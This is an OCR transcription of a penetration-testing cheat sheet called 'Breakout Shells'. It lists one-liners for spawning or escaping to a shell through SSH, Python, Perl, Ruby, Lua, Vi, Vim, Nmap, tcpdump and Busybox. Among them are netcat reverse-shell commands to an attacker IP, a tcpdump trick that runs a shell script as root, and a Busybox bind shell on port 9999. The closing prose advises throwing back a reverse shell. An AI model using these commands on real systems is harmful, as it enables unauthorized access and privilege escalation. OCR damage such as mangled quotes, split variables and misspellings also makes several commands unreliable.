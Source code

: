 # Breakout Shells

TTY Shell Break Out
- SSH
→ ssh user@$ip nc $ localip 4444 -e /bin/bash (Enter user's password)

- Python
→ python -c ‘import pty;pty.spawn("/bin/sh")’

- Perl
→ perl -e ‘exec “/bin/sh”; '
→ exec “/bin/sh”

- Ruby
→ exec “/bin/sh”

- Lua
→ os.execute('/bin/sh')

- In IRB
→ exec “/bin/sh”

- In Vi
→ :!bash
→ :set shell=/bin/bash:shell

- In Vim
→ ‘:!bash’:

- In Nmap
→ !sh

- In tcpdump
→ echo $;id\\n/bin/netcat $ ip 443 -e /bin/bash' > /tmp/.test chmod +x /tmp/.test sudo tcpdump -ln -i eth- -w /dev /null -W 1 -G 1 -z /
tmp/.test -Z root

- In Busybox
→ /bin/busy box telnetd -|/bin/sh -p9999
If it's not possible to add a new account / SSH Key / .rhosts file and just log in, your next step is likely to be either throwing back a reverse
shell or binding a shell to a TCP port
Your options for creating a reverse shell are limited by the sctipting languages installed on the target system - though you could probably
upload a binary program too if you're suitably well prepared
Some examples should also work on Windows if you substitute “/bin/sh -i” with “cmd.exe”
